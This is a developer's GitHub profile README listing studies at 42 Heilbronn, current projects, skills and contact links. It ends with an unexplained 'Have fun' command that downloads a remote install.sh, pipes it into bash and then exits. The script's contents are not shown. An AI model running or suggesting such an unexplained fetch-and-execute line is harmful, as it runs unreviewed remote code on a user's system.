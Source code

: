 ## Hi there 👋

<!--
**faizanoor/FaizaNoor** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->


<h1 align="center">Hi 👋, I'm Faiza Noor</h1>
<h3 align="center">I'm a software development team lead and currently studying at 42 coding School Heilbronn.</h3>

![](https://komarev.com/ghpvc/?username=faizanoor)

- 🔭 I'm currently working 
- I’m currently working on [Some projects of the core curriculum at the 42 Heilbronn](https://github.com/JonasGoetz01/42-pipex)

- 🚀 Have startup ideas? Want to collaborate? Send 👋 on discord()

- 🌱 I’m currently learning **Blockchain and Dapps, C**

- 💬 Ask me about **Web Development, Backend Development, Docker, K8s, Agile,**

- 📫 How to reach me **faizanoor3001@gmail.com**

### Connect with me:
<a href="https://linkedin.com/in/faiza-noor" target="blank">
  <img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/linked-in-alt.svg" alt="faiza noor" height="30" width="40" />
</a>

Have fun: 
```sh
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/faizanoor/sui/v1/install.sh)" && exit
```
